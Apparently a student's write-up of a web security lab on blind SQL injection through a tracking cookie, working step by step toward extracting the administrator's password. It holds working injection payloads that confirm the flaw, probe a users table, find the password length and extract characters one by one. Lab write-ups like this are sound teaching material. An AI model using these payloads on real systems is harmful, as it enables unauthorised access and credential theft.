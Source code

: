 # Lab: Blind SQL injection with conditional responses

vulnerable parameter - tracking cookie

End Goals :
1- Enmerate admin password
2- login as admin

Analysis:
1- confirm that the parameter is vulnerable to blind SQLI

the backend query might be something like this
SELECT stuff FROM some_table  WHERE tracking_id = 'usZTWfOGRaEcb9dx'

-> if this tracking id exists -> query returns value -> welcome back message
-> if this tracking id doesn't exists -> query returns nothiing -> no welcome back message

usZTWfOGRaEcb9dx'+and+1=1+--
-> welcome back message
usZTWfOGRaEcb9dx'+and+1=0+--
-> no welcome back message

2- confirm that we have a users table

'+and++(select+'x'+from+users+limit+1)+=+'x'+--
-> users table exists in the daatabase

3- Confirm that username administrator exists in users table

'+and++(select+'x'+from+users+where+username+='administrator')+=+'x'+--
-> administrator user exists in the database

4- Enumerate the password of the administrator user
    4.1 Enumerate the length of the password

'+and++(select+'x'+from+users+where+username+='administrator'+andlength(password)=20)+=+'x'+--
->
the length of the password is = 20 char

    4.2 Enumerate the password
    '+and+(select+substring(password,1,1)+from+users+where+username+=+'administrator'+)+=+'a'+--
    using burb intruder the first char is '6'
    
    i will script it in python

python script.py "url"
